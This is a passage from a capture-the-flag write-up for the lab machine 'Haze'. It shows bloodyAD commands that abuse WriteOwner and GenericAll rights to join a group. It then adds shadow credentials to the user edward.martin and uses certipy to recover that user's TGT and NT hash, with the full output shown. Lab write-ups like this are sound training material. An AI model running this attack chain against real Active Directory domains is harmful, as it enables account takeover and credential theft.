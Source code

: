 First we will use the WriteOwner to modify the dacl to Haze-IT-BACKUP$ as owner and then we will add ourselves to the group after that we have forceChangePassword to user EDWARD.MARTIN

```
bloodyAD --host "10.10.11.61" -d "haze.htb" -u 'Haze-IT-Backup$' -p ':4de830d1d58c14e241aff55f82ecdba1' set owner 'SUPPORT_SERVICES' 'Haze-IT-Backup$'

bloodyAD --host "10.10.11.61" -d "haze.htb" -u 'Haze-IT-Backup$' -p ":4de830d1d58c14e241aff55f82ecdba1" add  genericAll 'support_services' 'Haze-IT-Backup$'

bloodyAD --host "10.10.11.61" -d "haze.htb" -u 'Haze-IT-Backup$' -p ":4de830d1d58c14e241aff55f82ecdba1" add groupMember "SUPPORT_SERVICES" 'Haze-IT-Backup$'
```

 Theoretically we should now change the password easy, Unfortunately we can't because There is a minimum password age for edward.martin, so we can't just change the password so we will add shadow credentials  
 
```bash
➜  Haze bloodyAD --host "10.10.11.61" -d "haze.htb" -u 'Haze-IT-Backup$' -p ":4de830d1d58c14e241aff55f82ecdba1" add shadowCredentials "edward.martin"               
[+] KeyCredential generated with following sha256 of RSA key: 99a0895a675c570749b5a4898b12d1dbf83255ad027f40087dbf469d35a8d524
No outfile path was provided. The certificate(s) will be stored with the filename: SejxgrLl
[+] Saved PEM certificate at path: SejxgrLl_cert.pem
[+] Saved PEM private key at path: SejxgrLl_priv.pem
A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
Run the following command to obtain a TGT:
python3 PKINITtools/gettgtpkinit.py -cert-pem SejxgrLl_cert.pem -key-pem SejxgrLl_priv.pem haze.htb/edward.martin SejxgrLl.ccache
```

we could use the command that bloodyAD gave us but it will only generate TGT ccache but there is another way to retrieve the hash

```bash
➜  Haze     openssl pkcs12 -export -out login.pfx -inkey SejxgrLl_priv.pem -in SejxgrLl_cert.pem                                                                                                                    
Enter Export Password:
Verifying - Enter Export Password:
➜  Haze certipy auth -pfx login.pfx -u 'edward.martin' -domain haze.htb -dc-ip 10.10.11.61                                                                                                                          
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     No identities found in this certificate
[!] Could not find identity in the provided certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Got hash for 'edward.martin@haze.htb': aad3b435b51404eeaad3b435b51404ee:09e0b3eeb2e7a6b0d419e9ff8f4d91af
```
just like that we have the user flag 